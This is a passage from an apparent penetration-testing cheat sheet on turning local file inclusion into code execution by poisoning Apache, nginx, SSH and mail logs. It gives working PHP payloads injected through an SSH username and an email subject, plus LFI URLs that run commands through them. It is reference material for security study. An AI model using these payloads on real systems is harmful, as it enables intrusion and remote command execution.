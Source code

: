 ```text
/var/log/httpd/access_log
/var/log/httpd/error_log

/var/log/apache/access.log
/var/log/apache/error.log

/var/log/apache2/access.log
/var/log/apache2/error.log

/usr/local/apache/log/access_log
/usr/local/apache/log/error_log

/usr/local/apache2/log/access_log
/usr/local/apache2/log/error_log

/var/log/nginx/access.log
/var/log/nginx/error.log
```

### SSH

SSH logs the username of each connection.
Create a connection to SSH
with the suitable username.

```sh
ssh '<?php system('id'); ?>'@{{< param "war.rdomain" >}}
```

#### LFI

```txt
http://{{< param "war.rdomain" >}}/index.php?page=/path/to/sshd.log&c=id
```

#### Common SSH Log Paths

```text
/var/log/auth.log
/var/log/sshd.log
```

### Email

Email an internal account,
containing the script.

```sh
mail -s "<?php system($_GET['c']);?>" www-data@{{< param "war.rhost" >}} < /dev/null
```

#### LFI

```txt
http://{{< param "war.rdomain" >}}/index.php?page=/var/mail/www-data&c=id
```


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.